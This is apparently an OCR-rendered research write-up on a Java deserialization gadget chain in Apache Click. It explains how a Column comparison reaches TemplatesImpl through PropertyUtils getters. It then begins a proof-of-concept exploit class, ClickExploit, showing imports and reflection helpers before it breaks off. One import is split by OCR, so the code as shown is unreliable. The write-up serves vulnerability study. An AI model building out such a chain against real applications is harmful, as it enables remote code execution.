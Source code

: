 <div align=center><img src="./images/1.png"></div>

When comparing, the getProperty method of `this.column` will be called again. When the `row` is not the `map` type, this method will call the `getValue` method of `PropertyUtils` to get the value. At this time, you can use the `PropertyUtils#getValue` method mentioned above to trigger the `getter` method of the specified property, and then trigger the use of the `TemplatesImpl` chain.

<div align=center><img src="./images/2.png"></div>

# POC

```java
package org.h3rmesk1t.Click;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javass
ist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.click.control.Column;
import org.apache.click.control.Table;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 12:59 am
 */
public class ClickExploit {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
```